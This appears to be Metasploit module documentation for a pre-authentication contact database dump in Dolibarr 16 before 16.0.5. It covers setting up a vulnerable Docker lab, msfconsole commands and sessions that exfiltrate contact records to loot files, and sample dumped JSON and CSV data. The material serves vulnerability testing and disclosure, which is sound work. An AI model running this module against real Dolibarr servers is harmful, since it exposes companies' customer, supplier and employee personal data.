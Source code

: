 ## Vulnerable Application
### Dolibarr 16 pre-auth contact database dump

Dolibarr version 16 < 16.0.5 is vulnerable to a pre-authentication contact database dump.
An unauthenticated attacker may retrieve a company’s entire customer file, prospects, suppliers,
and potentially employee information if a contact file exists.
Both public and private notes are also included in the dump.

### Dolibarr GitHub Repository & Dolibarr setup with vulnerable docker image

If you need to setup Dolibarr,
this is the official GitHub Repository from Dolibarr or via docker with an unofficial but working image and docker-compose.
``` 
Official GitHub Repository:

https://github.com/Dolibarr/dolibarr/tree/16.0.4
```


Unofficial image with docker-compose:

`docker pull tuxgasy/dolibarr:16.0.4`

Important: This image does not contain a database. So you need to link it with a database container.

Use Docker Compose to integrate it with MariaDB (you can also use MySQL if you prefer).

Create docker-compose.yml file as following:
```
version: "3"

services:
    mariadb:
        image: mariadb:latest
        environment:
            MARIADB_DATABASE: dolibarr
            MARIADB_USER: dolibarr 
            MARIADB_PASSWORD: dolibarr
            MARIADB_RANDOM_ROOT_PASSWORD: 'yes'
    web:
        image: tuxgasy/dolibarr:16.0.4
        environment:
            DOLI_DB_HOST: mariadb
            DOLI_DB_USER: dolibarr
            DOLI_DB_PASSWORD: dolibarr
            DOLI_DB_NAME: dolibarr
            DOLI_URL_ROOT: 'http://0.0.0.0'
            PHP_INI_DATE_TIMEZONE: 'Europe/Paris'
        ports:
            - "80:80"
```

Then run all services with `docker-compose up -d`. Now, go to http://0.0.0.0 to access to the new Dolibarr installation.

## Dolibarr Configuration

Default credentials : admin/admin

Important:
Once Dolibarr is installed,
you will have to activate the Third-parties module and create at least one contact in the latter to validate that the module works.

To use this module, you must first enable it using an administrator account, via the menu option "Home - Setup - Modules/Applications".

Choose the tab where the module is listed. Then click on "Activate".

Finally, you can create a member via "Third-parties - New Contact/Address".

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/dolibarr_16_contact_dump`
4. Do: `set RHOSTS [IP] or [Dolibarr domain]`
5. Do: `exploit`
6. You should retrieve a file.

## Options

### TARGETURI

The path to Dolibarr instance.  Defaults to `/`,  `http://dolibarrdomain/`

## Scenarios

### Dolibarr 16.0.4 on Ubuntu 22.10
Exploitation of a Dolibarr 16.0.4.
```
msf6 > use auxiliary/scanner/http/dolibarr_16_contact_dump
msf6 auxiliary(scanner/http/dolibarr_16_contact_dump) > set RHOSTS http://[Dolibarr domain]/
RHOSTS => http://[Dolibarr domain]/
msf6 auxiliary(scanner/http/dolibarr_16_contact_dump) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected vulnerable Dolibarr version: 16.0.4                                        
[+] Database type: mysqli                                                                
[+] Database name: dolibarr                                                              
[+] Database user: dolibarr                                                              
[+] Database host: mariadb                                                               
[+] Database port: 3306                                                                  
[+] Found 1 contacts.                                                                    
[+] 0.0.0.0:80 - File saved in: /home/kali/.msf4/loot/20230424042820_default_0.0.0.0_dolibarr_820189.json                                                                         
[+] 0.0.0.0:80 - File saved in: /home/kali/.msf4/loot/20230424042820_default_0.0.0.0_dolibarr_736790.csv                                                                          
[*] Scanned 1 of 1 hosts (100% complete)                                                 
[*] Auxiliary module execution completed
```
### Dolibarr 16.0.4 on Ubuntu 22.10
Attempted exploitation of a Dolibarr 16.0.4 with an empty database.
```
msf6 > use auxiliary/scanner/http/dolibarr_16_contact_dump 
msf6 auxiliary(scanner/http/dolibarr_16_contact_dump) > set RHOSTS X.X.X.X
RHOSTS => X.X.X.X
msf6 auxiliary(scanner/http/dolibarr_16_contact_dump) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected vulnerable Dolibarr version: 16.0.4
[-] unexpected-reply: Dolibarr data did not include contacts field
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
### Dolibarr 17.0.0 on Ubuntu 22.10
Attempted exploitation of a Dolibarr 17.0.0.
```
msf6 > use auxiliary/scanner/http/dolibarr_16_contact_dump 
msf6 auxiliary(scanner/http/dolibarr_16_contact_dump) > set RHOSTS X.X.X.X
RHOSTS => X.X.X.X
msf6 auxiliary(scanner/http/dolibarr_16_contact_dump) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/dolibarr_16_contact_dump) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. Detected apparently non-vulnerable Dolibarr version: 17.0.0 ForceExploit is enabled, proceeding with exploitation.
[-] unexpected-reply: Exploit response code: 403
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Contact database dump
Here is an example of what your .csv and .json files would look like if the contact exfiltration was successful.

### .json

```
{
  "contacts": [
    {
      "db": {
        "db": {
        },
        "type": "mysqli",
        "forcecharset": "utf8",
        "forcecollate": "utf8_unicode_ci",
        "connected": true,
        "database_selected": true,
        "database_name": "dolibarr",
        "database_user": "dolibarr",
        "database_host": "mariadb",

        ...

        },
        "civility_code": "MR",
        "civility": "Mr.",
        "civilite": null,
        "address": "5100, rue de la Boatie",
        "zip": "69000",
        "town": "Lyon",
        "poste": "DSI",

        ...
```

### .csv

| id | country_code | state | note_private | lastname | firstname | civility | address | zip | town | poste | email |
|---|---|---|---|---|---|---|---|---|---|---|---|
|  1  | FR | Rhône |   | Latourelle | Valentine | Mrs. | 1700, Place de Paume | 69400 | Bron | CEO |  valentine@latourelle.latourelle |
|  2  | FR |   | don't make any discount |  Paston | Hugues | Mr. | 2200, rue Bonneteria | 59370 |  Mairieux | CEO | hugues@paston.paston |
|  3  | FR | Rhône  |   | Grivois | Thierry | Mr. | 5100, rue de la Boatie | 69000 | Lyon | DSI | thierry@grivois.grivois |
